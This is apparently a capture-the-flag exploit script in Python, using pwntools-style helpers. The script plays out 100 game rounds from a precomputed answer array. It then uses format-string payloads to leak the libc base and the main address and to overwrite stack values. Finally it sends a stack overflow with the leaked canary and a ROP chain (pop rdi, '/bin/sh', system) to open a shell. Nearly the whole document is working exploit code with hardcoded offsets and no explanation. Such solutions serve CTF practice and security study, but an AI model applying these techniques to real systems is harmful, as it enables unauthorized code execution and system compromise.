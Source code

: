 ```python
rand = [1,2,0,2,2,1,2,2,1,1,2,0,2,1,1,1,1,2,2,1,2,0,1,2,0,1,1,1,0,2,2,1,0,0,2,2,1,2,2,0,1,2,0,0,0,2,0,0,1,0,1,0,0,0,1,1,1,0,0,2,0,0,1,1,0,1,0,2,1,0,2,2,0,2,0,0,2,1,1,0,1,1,2,2,1,0,1,0,0,2,0,1,0,2,2,0,1,0,0,2]
input_m = []
for i in range(100):
 if rand[i] == 1:
  sla('round %s: \n'%str(i+1),'2')
 elif rand[i] == 2:
  sla('round %s: \n'%str(i+1),'0')
 elif rand[i] == 0:
  sla('round %s: \n'%str(i+1),'1')

pay = '%57c%8$hhn%9$p\n'.ljust(0x10,'a') + p64(stack - 0x218)

#raw_input()
#context.log_level = 'debug'
# dbg()
sn(pay)
# dbg()
ru('0x')
libc_base = int(rn(12),16) - 0x61d6f
pop_rdi = libc_base + libc.search(asm('pop rdi\nret')).next()
system_addr = libc_base + libc.sym['system']
binsh_addr = libc_base + libc.search('/bin/sh\x00').next()
ret = libc_base + 0x0000000000022679
lg('libc_base')
lg('pop_rdi')
lg('system_addr')
lg('binsh_addr')

pay = '%57c%8$hhn%23$p'.ljust(0x10,'a') + p64(stack - 0x218)
sn(pay)
ru('0x')
main_addr = int(rn(12),16) + 0x2e9 + 0x5 +0x20
lg('main_addr')

raw_input()
pay = '%' + str(main_addr & 0xffff) + 'c%10$hn'.ljust(0x1a,'a') + p64(stack - 0x218)
sn(pay)

pay = 'a'*0x108 + p64(canary) + p64(0)*3 + p64(pop_rdi) + p64(binsh_addr) +p64(ret)+ p64(system_addr)
# raw_input()
# dbg()
sa('your name:\n',pay)
sla('round %s: \n'%str(1),'2')
sla('round %s: \n'%str(2),'1')


irt()

```
